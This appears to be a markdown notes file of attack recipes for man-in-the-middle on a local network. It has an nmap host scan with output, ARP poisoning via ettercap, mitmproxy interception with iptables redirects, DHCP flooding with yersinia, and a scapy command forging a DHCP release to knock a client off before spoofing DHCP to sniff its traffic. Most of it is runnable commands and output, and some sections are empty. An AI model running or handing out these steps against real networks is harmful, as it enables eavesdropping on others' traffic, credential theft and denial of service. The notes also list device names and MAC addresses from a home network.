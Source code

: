 
# MITM 
In case of a wired network, we should use a Hub to connect on network. 
This attack is based on a faster answer to DHCPRequest than DHCP server from targeted network. If the server is answering before us a DOS on it could resolve the problem.
More informations here: [https://www.whitewinterwolf.com/posts/2017/10/30/dhcp-exploitation-guide/]()


## Host scan
Find host on network: 
	
	nmap -sn 192.168.1.0/24
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 15:01 CET
	Nmap scan report for box (192.168.1.1)
	Host is up (0.018s latency).
	MAC Address: E4:5D:51:CA:6B:18 (SFR)
	Nmap scan report for MBP-de-Florent (192.168.1.38)
	Host is up (0.13s latency).
	MAC Address: F4:0F:24:1A:3F:84 (Apple)
	Nmap scan report for HPA58000 (192.168.1.40)
	Host is up (0.26s latency).
	MAC Address: 30:E1:71:A5:80:00 (Hewlett Packard)
	Nmap scan report for SoundTouch-20 (192.168.1.56)
	Host is up (0.25s latency).
	MAC Address: 88:4A:EA:7E:FA:49 (Texas Instruments)
	Nmap scan report for 192.168.1.78
	Host is up (0.23s latency).
	MAC Address: B0:C0:90:DA:2C:52 (Chicony Electronics)
	Nmap scan report for FNN-LAPTOP (192.168.1.90)
	Host is up (0.054s latency).
	MAC Address: E4:70:B8:D7:48:DF (Intel Corporate)
	Nmap scan report for kali (192.168.1.25)
	Host is up.
	Nmap done: 256 IP addresses (7 hosts up) scanned in 3.65 seconds

## Ettercap - ARP Poisoning
- Activate ip_forward
	
	sysctl -w net.ipv4.ip_forward=1

- Launch ettercap (not from root)

	ettercap -G

- define Target from menu Target > Select Target:

	HOST1 = Cible
	HOST2 = Routeur (ie:192.168.1.1)

- launch arppoisoning by clicking Start/Stop ARP Poisoning
- Follow connections 

## Bettercap 


## HSTS - HTTP to HTTPS exploit with sslstrip
https://jlajara.gitlab.io/posts/2019/11/11/HSTS.html



## Mitmproxy (sslsplit equivalent)
This solution will not be discret unless you setup the mitm.it ssl certificate on target device. 
Once certificate is installed the target device connection will appear as secure.

- Activate ip forward
	sysctl -w net.ipv4.ip_forward=1
- launch mitmproxy
	mitmproxy -m transparent -k
- Mitm proxy use port 8080 to receive request. Though, you should redirect 443 and 80.
	iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
	iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8080
- Navigate to mitm.it with the target device


## DNSchef - DNS Poisoning



## DOS (Denial of Service)
- Flood DHCP server to make sure, it will note answer:
	yersinia dhcp -interface wlan0 -attack 1	

	Dynamic Host Configuration Protocol (DHCP):
       -source hw_addr
              Source MAC address
       -dest hw_addr
              Destination MAC address
       -interface iface
              Set network interface to use
       -attack attack
              Attack to launch

	Attacks Implemented in DHCP:
	0: NONDOS attack sending RAW packet
	1: DOS attack sending DISCOVER packet
	2: NONDOS attack creating DHCP rogue server
	3: DOS attack sending RELEASE packet



----------------------------------------------------------------------------------


## Force DHCP Release

- Force release with scapy:
	Client : 192.168.1.97 08:C5:E1:89:31:BC
	Server : 192.168.1.1 E4:5D:51:CA:6B:18

sendp(Ether(src="08:C5:E1:89:31:BC",dst="E4:5D:51:CA:6B:18") /
IP(src="192.168.1.97",dst="192.168.1.1") /
UDP(sport=68,dport=67) /
BOOTP(chaddr="\x08\xC5\xE1\x89\x31\xBC",ciaddr="192.168.1.97",xid=random.randint(0, 0xFFFFFFFF)) /
DHCP(options=[("message-type","release"),("server_id", "192.168.1.1"),"end"]), iface="wlan0") 


- Sniff remote connection :
	ettercap -Tzq -M dhcp:/255.255.255.0/192.168.1.1 -i wlan0





